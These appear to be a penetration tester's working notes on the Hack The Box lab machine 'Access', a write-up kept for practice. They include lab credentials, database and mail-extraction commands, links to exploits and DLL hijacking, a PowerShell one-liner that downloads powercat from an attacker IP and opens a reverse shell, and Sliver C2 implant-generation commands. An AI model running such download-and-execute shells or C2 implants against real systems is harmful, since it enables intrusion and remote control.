# Access Notes

## Data 

IP:  10.10.10.98
OS: Window server 2008 x64 
Hostname: Access
Machine Purpose: 
Services: 21,23,80 - LON-MC6! - no udp!
Service Languages: 
Users:  users.txt
Credentials: passwords.txt
```
access4u@security is password for 'Access Control.zip'
"security" - 4Cc3ssC0ntr0ller
john - john@megacorp.com
security@accesscontrolsystems.com
```
## Objectives



## Solution Inventory Map

WTF is LON-MC6 

telnet clients group

```powershell
# a backup of the primary Bootsect.dos created by old Windows OSs
C:\BOOTSECT.BAK
# 
C:\ZKTeco\ZKAccess3.5
```

### Todo 

https://learn.microsoft.com/en-us/previous-versions/windows/desktop/policy/group-policy-objects

WTF is LON-MC6 router?
yawcam is security camera - faq mentions port forwarding - but no binaries are aloud

![](alotsofperms.png)
[exploitdb](https://www.exploit-db.com/exploits/40323) - we can basically modify because we can append, read and write data. I am happy I found this without searching for exploitdb.

```
icalcs C:\ZKTeco\ZKAccess3.5
```

icaclzkaccessexes.png


But we cant modify dlls or write dll unless we can find phantom dlls that get loaded [hacktricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dll-hijacking)
dllhijackingtypes.png



https://www.trendmicro.com/vinfo/us/security/news/vulnerabilities-and-exploits/patched-microsoft-access-mdb-leaker-cve-2019-1463-exposes-sensitive-data-in-database-files

### Done

https://support.microsoft.com/en-us/topic/ms09-042-vulnerability-in-telnet-could-allow-remote-code-execution-7d71e702-0539-73ab-dbbe-2ac5502c8420 - no info, but it more a hint for our only point of connect, if I had waited I would seen it ask for credentials

dumpingftp.png
https://en.wikipedia.org/wiki/Microsoft_Access
Install [mbdtools](https://www.kali.org/tools/mdbtools/)
```bash
# mdbtools for mdb databse
# pstutils for the .pst file 
sudo apt install mdbtools pstutils
```

JET4.png
```bash
mdb-tables backup.mdb > all-tables
```

```bash
mdb-hexdump backup.mdb
```
afavouriteword.png
creds.png
3333s.png

access4u@security is password for 'Access Control.zip'

passwordaccountandversions.png

https://linux.die.net/man/1/readpst
```bash
readpst Access\ Control.pst
cat Access\ Control.mbox
```

John Carter is mentioned in USERINFO.c
johncarter.png

https://vulners.com/nessus/SMB_NT_MS09-042.NASL - trick a user or SSRF with telnet 

security-4Cc3ssC0ntr0ller.png

yawcam.png
https://packetstormsecurity.com/files/145770/Yawcam-0.6.0-Directory-Traversal.html

```powershell
%USER%.yawcam

type .yawcam\ver.dat
0.6.2
http://www.yawcam.com/ver.dat
http://home.bitcom.se/yawcam_files/ver.dat


```
https://www.yawcam.com/

systeminfo.png


Sad Netdogs and Netcats
netdogssaddogs.png

All executables are blocked by group policy

ZKTeco.png
```powershell
# Access denied - icacls you fool 
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.16/powercat.ps1');powercat -c 10.10.14.16 -p 8000 -i C:\ZKTeco\ZKAccess3.5"
# Icacls just because
icacls C:\ZKTeco\ZKAccess3.5
```

yawcam settings file 176.26.141.32:8080 is referenced
no172conn.png

I feel in love with sliver from the silly names of implants to clarity and speed.

[Sliver Wiki](https://github.com/BishopFox/sliver/wiki/)
```go
sliver
// View all implants
implants
// Generate Beacons and Sessions
generate
// Choice one C2 endpoint using:
// --wg is wireguard 
--mtls --wg --http --dns
// Session are sessions opsec unsafe
generate --mtls domain.com --os windows --save 
// Beacons are asychronous - more opsec way they sleep and check 
generate beacon --mtls 10.10.10.10:6969 --arch amd64 --os windows -save /path/to/directory
// Regenerate
regenerate
// listeners
// Do not accept interfaces as arguemnts like metasploit
mtls
wg
https
http
dns
// Jonbs to view and manage listners
jobs
// Interact with sessions
use sessionID 
```

https://freshman.tech/snippets/go/cross-compile-go-programs/

https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/

```powershell
sc query state=all
```